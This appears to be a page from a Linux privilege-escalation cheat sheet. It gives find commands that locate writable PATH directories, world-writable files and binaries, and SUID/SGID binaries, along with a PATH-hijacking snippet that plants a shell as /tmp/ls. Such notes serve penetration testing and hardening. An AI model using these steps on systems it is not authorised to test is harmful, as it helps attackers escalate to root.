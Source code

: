 #### Writable Directories in PATH
- **Lists writable directories in PATH:**
	```bash
	find $(echo $PATH | tr ':' ' ') -type d -writable 2>/dev/null
	```
- **Or:**
	```bash
	echo $PATH | tr ":" "\n" | xargs -I {} find {} -writable -type d 2>/dev/null
	```

#### PATH Hijacking
- **Overwrite `PATH` Binaries:** If you can control the `PATH` environment variable, place a malicious binary with the same name as a system binary in the current directory.
	```bash
	echo '/bin/sh' > /tmp/ls
	chmod +x /tmp/ls
	export PATH=/tmp:$PATH
	```

# File Permissions and Ownership

- **[GTFO Bins](https://gtfobins.github.io/)**

#### Search for World-Writable Files
- **Find All World-Writable Files:** May allow modification or trojanization.
	```bash
	find / -writable -type f 2>/dev/null
	```
- **Find All World-Writable Directories,:** May allow dropping malicious files or binaries.
	```bash
	find / -writable -type d 2>/dev/null
	```
- **Find All World-Writable Files and Directories:**
	```bash
	find / -perm -o+w -exec ls -ld {} \; 2>/dev/null
	```
- **Find All Directories with Group or World-Writable Permissions:** If critical system directories like `/etc`, `/home`, or `/var` are writable, they can be exploited.
	```bash
	find / -perm -g+w -o -perm -o+w -type d 2>/dev/null
	```
- **Find All Writable System Binaries:**
	```bash
	find /bin /sbin /usr/bin /usr/sbin /usr/local/bin -writable -type f 2>/dev/null
	```

#### Insecure File Ownership
- **Identify non-root-owned SUID binaries:** This may be an indication of misconfiguration
	```bash
	find / -not -user root -perm /4000 2>/dev/null
	```
- **Find SGID binaries that can be exploited based on group membership:**
	```bash
	find / -group <group> -perm /2000 2>/dev/null
	```
